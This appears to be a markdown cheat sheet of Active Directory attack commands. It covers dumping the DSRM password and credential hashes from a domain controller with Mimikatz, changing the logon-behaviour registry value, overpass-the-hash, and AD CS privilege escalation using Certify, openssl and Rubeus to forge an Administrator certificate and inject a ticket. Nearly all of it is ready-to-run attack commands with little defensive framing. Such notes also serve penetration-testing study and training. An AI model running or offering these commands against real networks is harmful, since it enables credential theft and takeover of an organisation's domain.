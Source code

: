**DSRM:**  
DA privs on DC  

```powershell
# Dump DSRM password (needs DA privs)
Invoke-Mimikatz -Command '"token::elevate" "lsadump::sam"' -Computername us-dc
# Compare the Administrator hash with the Administrator hash of below command
Invoke-Mimikatz -Command '"lsadump::lsa /patch"' -Computername us-dc
# First one is the DSRM local Administrator
```

OPTH the DSRM pass to authenticate, but the logon behaviour needs to be changed:  

```powershell
Enter-PSSession -Computername us-dc
New-ItemProperty "HKLM:\System\CurrentControlSet\Control\Lsa\" -Name "DsrmAdminLogonBehavior" -Value 2 -PropertyType DWORD

# OPTH:
Invoke-Mimikatz -Command '"sekurlsa::pth /domain:<dc> /user:Administrator /ntlm:<hash> /run:powershell.exe"'
ls \\<dc>\C$
# To use PSRemoting, we must force NTLM authentication:
Enter-PSSession -ComputerName us-dc -Authentication Negotiate
```

## Cross Trust Attacks

**AD CS Enumeration**  

```powershell
# We can use the Certify tool (https://github.com/GhostPack/Certify) to enumerate (and for other attacks) AD CS in the target forest:
# Run on the DC
Certify.exe cas
# Enumerate the templates:
Certify.exe find
# Enumerate vulnerable templates:
Certify.exe find /vulnerable
Certify.exe find /enrolleeSuppliesSubject

# User certify.exe with no parameters for help and usage examples
```

**AD CS Priv Esc**  

```powershell
# If you have a pfx certificate:
Rubeus.exe asktgt /user:<username> /certificate:<compromised-cert>.pfx /password:SecretPass@123 /nowrap /ptt
# the password needs to be the same password used when extracting the certificate from the registry

# Request a certificate for DA! (use the vulnerable template)
Certify.exe request /ca:<CA-server> /template:<vuln-template-name> /altname:Administrator
# Copy the output from above and save to a .pem file
# Convert from cert.pem to pfx:
openssl.exe pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out DA.pfx
# There will be a prompt for a password - this same password must be used when importing the pfx file
# Request DA TGT and inject it:
Rubeus.exe asktgt /user:Administrator /certificate:DA.pfx /password:SecretPass@123 /nowrap /ptt
# password is from openssl command

# Alt command to request enterprise admin TGT and inject it
# Specify /user from the parent domain (forest root) and the /dc from the parent domain (forest root)
```
